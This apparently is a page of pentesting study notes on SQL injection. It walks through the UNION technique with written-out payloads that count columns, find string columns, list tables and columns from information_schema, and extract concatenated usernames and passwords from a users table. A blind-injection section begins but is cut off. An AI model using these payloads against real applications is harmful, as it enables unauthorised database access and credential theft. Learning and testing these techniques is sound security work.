 The following screenshots show different examples:

![[SQLi 1.png]]

![[SQLi 2.png]]

![[SQLi 3.png]]

![[SQLi 4.png]]

![[SQLi 5.png]]
# SQLi UNION Technique

This technique works if the results of the query are being returned in the response, if not Blind techniques will have to be used. First, we need to determine how the application responds to a valid vs invalid query. 

With this information we will be able to determine whether our injected payloads are valid or invalid.

First, determine how many columns are in the original query. The number of "nulls" injected needs to be adjusted:

```sql
' union select null, null--
```

Then, determine which columns returns string data:

```sql
' union select 'Test', null--
```

And extract table names from the database:

```sql
' union select table_name, null from information_schema.tables--
```

Then, extract column names from those tables:

```sql
' union select null,column_name from information_schema.columns where table_name = 'users'--
```

Finally, to retrieve multiple values in a single value (if needed):

```sql
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```
# SQLi Blind Conditional Response

Identify if the below payloads result in a notable difference in the responses. The key here is to know how the application responds to a true statement (1=1) vs a false statement (1=2):
